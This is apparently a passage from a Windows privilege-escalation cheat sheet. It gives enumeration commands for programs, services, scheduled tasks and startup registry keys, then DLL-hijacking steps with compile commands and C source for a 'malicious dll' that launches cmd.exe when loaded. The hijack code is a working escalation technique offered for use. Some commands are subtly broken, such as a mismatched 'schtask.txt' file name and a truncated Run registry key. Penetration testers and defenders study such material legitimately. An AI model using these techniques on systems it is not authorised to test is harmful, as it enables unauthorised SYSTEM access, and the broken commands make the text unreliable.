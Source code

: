 List installed programs

```powershell
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

List services

```powershell
net start
wmic service list brief
tasklist /SVC
```

Scheduled tasks

```powershell
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Startup tasks

```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

## EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions
> might allow EoP. You can replace the binary, restart the service and get
> system.

Often, services are pointing to writeable locations:

- Orphaned installs, not installed anymore but still exist in startup
- DLL Hijacking

  ```powershell
  # find missing DLL
  - Find-PathDLLHijack PowerUp.ps1
  - Process Monitor : check for "Name Not Found"

  # compile a malicious dll
  - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
  - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

  # content of windows_dll.c
  #include <windows.h>
  BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
      if (dwReason == DLL_PROCESS_ATTACH) {
          system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
          ExitProcess(0);
      }
      return TRUE;
  }
  ```
